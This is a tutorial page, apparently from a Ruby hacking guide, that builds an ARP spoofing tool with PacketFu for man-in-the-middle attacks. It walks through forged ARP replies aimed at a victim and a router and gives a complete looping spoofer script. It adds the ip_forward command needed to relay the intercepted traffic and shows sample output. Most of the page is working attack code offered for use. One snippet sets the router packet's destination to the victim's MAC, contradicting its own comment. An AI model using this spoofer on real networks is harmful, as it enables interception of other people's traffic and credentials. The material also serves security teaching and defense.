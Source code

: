 # ARP Spoofing

As you know, ARP Spoofing attack in the core of MitM attacks. In this part we'll know how to write simple and effective ARP spoofer tool to use it in later spoofing attacks.

## Scenario

We have 3 machines in this scenario as shown below.

```text
             |Attacker|
                 |
                 ٧
|Victim| -----------------> |Router| ---> Internet
```

Here the list of IP and MAC addresses of each of theme in the following table

| Host/Info | IP Address | MAC Address |
| :--- | :---: | :---: |
| Attacker | 192.168.0.100 | 3C:77:E6:68:66:E9 |
| Victim | 192.168.0.21 | 00:0C:29:38:1D:61 |
| Router | 192.168.0.1 | 00:50:7F:E6:96:20 |

To know our/attacker's interface information

```ruby
info = PacketFu::Utils.whoami?(:iface => "wlan0")
```

returns a hash

```text
{:iface=>"wlan0",
 :pcapfile=>"/tmp/out.pcap",
 :eth_saddr=>"3c:77:e6:68:66:e9",
 :eth_src=>"<w\xE6hf\xE9",
 :ip_saddr=>"192.168.0.13",
 :ip_src=>3232235533,
 :ip_src_bin=>"\xC0\xA8\x00\r",
 :eth_dst=>"\x00P\x7F\xE6\x96 ",
 :eth_daddr=>"00:50:7f:e6:96:20"}
```

So you can extract these information like any hash `info[:iface]`, `info[:ip_saddr]`, `info[:eth_saddr]`, etc..

**Building victim's ARP packet**

```ruby
# Build Ethernet header
arp_packet_victim = PacketFu::ARPPacket.new
arp_packet_victim.eth_saddr = "3C:77:E6:68:66:E9"       # our MAC address
arp_packet_victim.eth_daddr = "00:0C:29:38:1D:61"       # the victim's MAC address
# Build ARP Packet
arp_packet_victim.arp_saddr_mac = "3C:77:E6:68:66:E9"   # our MAC address
arp_packet_victim.arp_daddr_mac = "00:0C:29:38:1D:61"   # the victim's MAC address
arp_packet_victim.arp_saddr_ip = "192.168.0.1"          # the router's IP
arp_packet_victim.arp_daddr_ip = "192.168.0.21"         # the victim's IP
arp_packet_victim.arp_opcode = 2                        # arp code 2 == ARP reply
```

**Building router packet**

```ruby
# Build Ethernet header
arp_packet_router = PacketFu::ARPPacket.new
arp_packet_router.eth_saddr = "3C:77:E6:68:66:E9"       # our MAC address
arp_packet_router.eth_daddr = "00:0C:29:38:1D:61"       # the router's MAC address
# Build ARP Packet
arp_packet_router.arp_saddr_mac = "3C:77:E6:68:66:E9"   # our MAC address
arp_packet_router.arp_daddr_mac = "00:50:7F:E6:96:20"   # the router's MAC address
arp_packet_router.arp_saddr_ip = "192.168.0.21"         # the victim's IP
arp_packet_router.arp_daddr_ip = "192.168.0.1"          # the router's IP
arp_packet_router.arp_opcode = 2                        # arp code 2 == ARP reply
```

**Run ARP Spoofing attack**

```ruby
# Send our packet through the wire
while true
    sleep 1
    puts "[+] Sending ARP packet to victim: #{arp_packet_victim.arp_daddr_ip}"
    arp_packet_victim.to_w(info[:iface])
    puts "[+] Sending ARP packet to router: #{arp_packet_router.arp_daddr_ip}"
    arp_packet_router.to_w(info[:iface])
end
```

Source

Wrapping all together and run as `root`

```ruby
#!/usr/bin/env ruby
#
# ARP Spoof Basic script
#
require 'packetfu'

attacker_mac = "3C:77:E6:68:66:E9"
victim_ip    = "192.168.0.21"
victim_mac   = "00:0C:29:38:1D:61"
router_ip    = "192.168.0.1"
router_mac   = "00:50:7F:E6:96:20"

info = PacketFu::Utils.whoami?(:iface => "wlan0")
#
# Victim
#
# Build Ethernet header
arp_packet_victim = PacketFu::ARPPacket.new
arp_packet_victim.eth_saddr = attacker_mac        # attacker MAC address
arp_packet_victim.eth_daddr = victim_mac          # the victim's MAC address
# Build ARP Packet
arp_packet_victim.arp_saddr_mac = attacker_mac    # attacker MAC address
arp_packet_victim.arp_daddr_mac = victim_mac      # the victim's MAC address
arp_packet_victim.arp_saddr_ip = router_ip        # the router's IP
arp_packet_victim.arp_daddr_ip = victim_ip        # the victim's IP
arp_packet_victim.arp_opcode = 2                  # arp code 2 == ARP reply

#
# Router
#
# Build Ethernet header
arp_packet_router = PacketFu::ARPPacket.new
arp_packet_router.eth_saddr = attacker_mac        # attacker MAC address
arp_packet_router.eth_daddr = router_mac          # the router's MAC address
# Build ARP Packet
arp_packet_router.arp_saddr_mac = attacker_mac    # attacker MAC address
arp_packet_router.arp_daddr_mac = router_mac      # the router's MAC address
arp_packet_router.arp_saddr_ip = victim_ip        # the victim's IP
arp_packet_router.arp_daddr_ip = router_ip        # the router's IP
arp_packet_router.arp_opcode = 2                  # arp code 2 == ARP reply

while true
    sleep 1
    puts "[+] Sending ARP packet to victim: #{arp_packet_victim.arp_daddr_ip}"
    arp_packet_victim.to_w(info[:iface])
    puts "[+] Sending ARP packet to router: #{arp_packet_router.arp_daddr_ip}"
    arp_packet_router.to_w(info[:iface])
end
```

> Note: Don't forget to enable packet forwarding on your system to allow victim to browse internet.
>
> `echo "1" > /proc/sys/net/ipv4/ip_forward`

Returns, time to wiresharking ;\)

```text
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
.
.
.
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
```


